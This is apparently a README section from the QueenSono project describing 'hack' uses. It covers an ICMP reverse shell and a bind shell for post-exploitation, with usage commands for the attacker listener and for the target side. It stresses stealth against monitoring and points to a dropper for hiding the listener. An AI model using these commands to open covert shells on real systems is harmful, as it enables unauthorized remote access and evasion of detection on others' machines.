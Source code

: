 # Hack

Some fun things using `QueenSono`

## Reverse Shell
<h5 align="center">In <code>QueenSono/hack/reverse-shell</code></h5>

<p align="center"><i> It a "reverse shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** if ICMP is less monitored than other protocol (eg TCP), having a reverse shell trough `QueenSono` is more more stealthy.

#### How to do it
*> On the attacker machine:* Put your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the target machine:* Provide the reverse shell
```
./reverse-shell.sh <ip_attacker> <ip_listening_for_icmp>
```


### Bindshell

Sometimes, and for the ***post exploitation*** phase it is more suited, you need a bind shell. That is to say the `listener` will be on the "compromised" machine and the attacker machine will "bind" to this shell.

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Could I adapt it to use ICMP ? 🤔*
